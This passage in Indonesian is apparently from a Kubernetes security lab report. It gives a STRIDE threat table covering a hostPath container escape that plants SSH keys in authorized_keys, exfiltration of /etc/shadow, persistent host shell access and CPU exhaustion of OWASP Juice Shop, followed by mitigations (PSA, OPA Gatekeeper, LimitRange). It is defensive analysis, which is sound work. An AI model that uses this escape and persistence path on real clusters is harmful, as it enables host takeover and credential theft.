| **Spoofing** | Penyerang menyamar sebagai user `ubuntu` via SSH Key yang disisipkan | Skenario 1 | Low |
| **Tampering** | Modifikasi file host (`authorized_keys`) via mount point `hostPath` | Skenario 1 | High |
| **Repudiation** | Pelaku tidak teridentifikasi karena ServiceAccount default, tanpa label, dan audit log mati | Skenario 2 | Medium |
| **Information Disclosure** | Membaca & mengeksfiltrasi isi file sensitif `/etc/shadow` ke mesin penyerang | Skenario 1 | High |
| **Denial of Service** | Lonjakan CPU hingga 90% memicu kelumpuhan & kelemotan layanan OWASP Juice Shop | Skenario 2 | High |
| **Elevation of Privilege** | Memperoleh shell SSH persisten ke sistem host eksternal meski Pod dihapus | Skenario 1 | Critical |

---

## Kesimpulan Mitigasi
1. **PSA Baseline**: Efektif menolak pembuatan pod yang menggunakan volume `hostPath` sebelum kontainer sempat dijalankan.
2. **OPA Gatekeeper**: Memberikan kontrol kebijakan kustom (*Policy as Code*) berbasis Rego yang presisi untuk mencegah akses tidak sah ke direktori sistem host.
3. **LimitRange**: Efektif menstabilkan penggunaan CPU dari 90% kembali ke 16%, membatasi potensi *Resource Exhaustion* serta menjamin ketersediaan (*Availability*) layanan cluster.
